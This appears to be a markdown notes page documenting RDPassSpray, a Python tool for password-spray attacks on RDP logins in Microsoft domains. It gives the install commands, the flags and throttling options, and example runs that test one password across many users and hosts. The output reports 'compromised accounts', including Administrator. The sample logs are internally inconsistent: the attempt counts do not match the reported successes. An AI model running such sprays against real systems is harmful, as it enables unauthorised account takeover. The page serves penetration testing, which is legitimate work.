


## RDPassSpray

Is a python tool to perform password spray attack in a Microsoft domain environment.

**RECOMMENDED** Use ldapdomaindump for creating a list of users

### Installation

```plain
git clone https://github.com/xFreed0m/RDPassSpray.git
cd RDPassSpray
pip3 install -r requirements.txt
sudo apt install freerdp2-x11
```

### Usage

```plain
RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET)
               [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]
```

### Flags

```plain
optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
  -t TARGET, --target TARGET
                        Target machine to authenticate against
  -s SLEEP, --sleep SLEEP
                        Throttle the attempts to one attempt every # seconds, can be randomized by passing the value 'random' - default is
                        0
  -r minimum_sleep maximum_sleep, --random minimum_sleep maximum_sleep
                        Randomize the time between each authentication attempt. Please provide minimun and maximum values in seconds
  -d DOMAIN, --domain DOMAIN
                        Domain name to use
  -n NAMES, --names NAMES
                        Hostnames list to use as the source hostnames, one per line
  -o OUTPUT, --output OUTPUT
                        Output each attempt result to a csv file
  -V, --verbose         Turn on verbosity to show failed attempts
```

### Examples

#### Single user password spray

```plain
$ python3 RDPassSpray.py -u johndo -p Welkom1234 -t 10.10.10.10
[06-08-2020 08:50] - Total number of users to test: 1
[06-08-2020 08:50] - Total number of password to test: 1
[06-08-2020 08:50] - Total number of attempts: 1
[06-08-2020 08:50] - [*] Started running at: 06-08-2020 08:50:46
[06-08-2020 08:50] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 08:50] - [*] Overall compromised accounts: 1
[06-08-2020 08:50] - [*] Finished running at: 06-08-2020 08:50:48
```

#### Multiple targets password spray

**RECOMMENDED** Use output to CSV, otherwise target IP is not shown afterwards

```plain
$ python3 RDPassSpray.py -u johndo -p Welkom1234 -T targetlist.txt -o ouptut.txt
[06-08-2020 08:56] - Total number of users to test: 1
[06-08-2020 08:56] - Total number of password to test: 1
[06-08-2020 08:56] - Total number of attempts: 1
[06-08-2020 08:56] - [*] Started running at: 06-08-2020 08:56:31
[06-08-2020 08:56] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 08:56] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 08:56] - [+] Seems like the creds are valid, but no RDP permissions: johndo :: Welkom1234
[06-08-2020 08:56] - [-] Failed to establish connection, check 10.10.10.13 RDP availability.
[06-08-2020 08:56] - [*] Resetting to the original hostname
[06-08-2020 08:57] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 08:57] - [*] Overall compromised accounts: 4
[06-08-2020 08:57] - [*] Finished running at: 06-08-2020 08:57:02
```



#### Multiple users password spray

**Note** list of users can be easily created with ldapdomaindump tool

```plain
$ python3 RDPassSpray.py -U userlist.txt -p Welkom1234 -T targetlist.txt -o output
[06-08-2020 09:13] - Total number of users to test: 11
[06-08-2020 09:13] - Total number of password to test: 1
[06-08-2020 09:13] - Total number of attempts: 11
[06-08-2020 09:13] - [*] Started running at: 06-08-2020 09:13:03
[06-08-2020 09:13] - [*] Creds valid, but pass expired: professor :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: lisboa :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: janedo :: Welkom1234
[06-08-2020 09:13] - [+] Cred successful (maybe even Admin access!): adm_johndo :: Welkom1234
[06-08-2020 09:13] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 09:13] - [+] Cred successful (maybe even Admin access!): Administrator :: Welkom1234
[06-08-2020 09:13] - [*] Creds valid, but pass expired: professor :: Welkom1234
[06-08-2020 09:13] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 09:13] - [+] Cred successful (maybe even Admin access!): Administrator :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: helsinki :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: nairobi :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: professor :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: lisboa :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: tokio :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: janedo :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: adm_johndo :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: johndo :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: Administrator :: Welkom1234
[06-08-2020 09:13] - [+] Seems like the creds are valid, but no RDP permissions: krbtgt :: Welkom1234
[06-08-2020 09:14] - [+] Seems like the creds are valid, but no RDP permissions: Guest :: Welkom1234
[06-08-2020 09:14] - [-] Failed to establish connection, check 10.10.10.13 RDP availability.
[06-08-2020 09:14] - [*] Resetting to the original hostname
[06-08-2020 09:14] - [*] Creds valid, but pass expired: professor :: Welkom1234
[06-08-2020 09:14] - [+] Cred successful (maybe even Admin access!): adm_johndo :: Welkom1234
[06-08-2020 09:14] - [+] Cred successful (maybe even Admin access!): johndo :: Welkom1234
[06-08-2020 09:14] - [+] Cred successful (maybe even Admin access!): Administrator :: Welkom1234
[06-08-2020 09:14] - [*] Overall compromised accounts: 24
[06-08-2020 09:14] - [*] Finished running at: 06-08-2020 09:14:44
```



### URL list

* [GitHub.com - RDPassSpray](https://github.com/xFreed0m/RDPassSpray)
